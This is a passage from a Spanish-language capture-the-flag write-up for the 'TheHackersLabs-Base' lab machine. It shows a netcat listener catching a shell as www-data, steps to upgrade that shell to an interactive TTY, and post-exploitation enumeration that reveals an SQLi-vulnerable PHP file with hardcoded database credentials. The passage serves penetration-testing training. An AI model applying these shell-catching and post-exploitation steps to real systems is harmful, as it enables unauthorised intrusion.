 Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.70] 38114
bash: cannot set terminal process group (698): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Base:/var/www/html/fp-content/attachs$ whoami
whoami
www-data
```
Estamos dentro.

Solo falta obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Como nota adicional, si intentas hacer este mismo proceso para ganar acceso a la máquina víctima con una **Reverse Shell**, no funcionará, aunque no encontré el motivo de esto.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima, Crackeo de Hash Encontrado y Ganando Acceso a Máquina Vía SSH</h2>

Si nos vamos a la ruta `/var/www/sitio2`, encontraremos el archivo vulnerable a **SQLi**:
```bash
www-data@TheHackersLabs-Base:/var/www/sitio2$ ls  
16.jpg	index.php  search.php
www-data@TheHackersLabs-Base:/var/www/sitio2$ cat search.php 
<?php
// Configuración de la base de datos
$servername = "localhost";
$username = "base"; // Usuario de la base de datos
$password = "rodgar"; // Contraseña del usuario de la base de datos
$dbname = "Nombres";

// Crear conexión
$conn = new mysqli($servername, $username, $password, $dbname);

// Verificar la conexión
if ($conn->connect_error) {
    die("Conexión fallida: " . $conn->connect_error);
}

// Obtener la consulta del formulario
```